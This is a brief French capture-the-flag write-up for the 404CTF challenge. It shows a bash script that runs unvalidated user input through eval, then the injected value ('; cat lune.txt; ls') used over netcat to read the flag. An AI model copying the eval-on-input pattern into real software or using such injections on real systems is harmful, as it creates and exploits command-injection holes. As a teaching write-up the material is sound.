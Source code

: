 ## PWN / Intro

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

L'énoncé nous fourni le script qui tourne sur le serveur : [donne_moi_la_lune.sh](files/donne_moi_la_lune.sh)

C'est pas forcément une exploitation de binaire, mais le `eval` d'une saisie de l'utilisateur non contrôlée.


```bash
read personne
eval "grep -wie ^$personne informations.txt"
```

On peut injecter du code dans `personne` avec `toto informations.txt; cat lune.txt; ls`


```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
toto informations.txt; cat lune.txt; ls
404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
informations.txt
```
